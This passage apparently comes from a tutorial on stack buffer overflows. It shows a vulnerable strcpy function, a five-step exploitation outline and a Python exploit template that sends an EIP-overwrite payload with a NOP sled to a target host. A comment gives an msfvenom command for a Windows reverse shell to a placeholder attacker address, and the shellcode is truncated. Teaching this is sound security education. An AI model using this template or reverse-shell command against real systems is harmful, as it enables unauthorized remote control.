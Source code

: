 ```c
void vulnerable_function(char *input) {
    char buffer[64];
    strcpy(buffer, input);  // No bounds checking!
}

```

**Heap-Based Buffer Overflow:**

- Occurs in dynamically allocated memory
- More complex to exploit
- Targets malloc/free implementations

##### **Exploitation Process**

1. **Fuzzing**: Send increasingly large inputs to find crash point
2. **Finding Offset**: Determine exact bytes to reach EIP/RIP
3. **Controlling EIP**: Overwrite return address
4. **Shellcode Placement**: Insert malicious code
5. **Execution**: Redirect flow to shellcode

##### **Python Exploit Template**

```python
#!/usr/bin/env python3
import socket
import sys

# Target configuration
target_ip = "192.168.1.100"
target_port = 9999

# Exploit components
offset = 146  # Bytes to EIP
eip = b"\\\\x83\\\\x16\\\\x50\\\\x62"  # JMP ESP address (little endian)
nop_sled = b"\\\\x90" * 16  # NOP sled for reliability

# msfvenom -p windows/shell_reverse_tcp LHOST=attacker_ip LPORT=4444 -b "\\\\x00" -f python
shellcode = b"\\\\x31\\\\xc9\\\\x83\\\\xe9\\\\xaf\\\\xe8\\\\xff\\\\xff\\\\xff\\\\xff..."

# Build payload
payload = b"A" * offset
payload += eip
payload += nop_sled
payload += shellcode

# Send exploit
try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target_ip, target_port))
    s.send(payload)
    s.close()
    print("[+] Exploit sent successfully!")
except Exception as e:
    print(f"[-] Error: {e}")

```
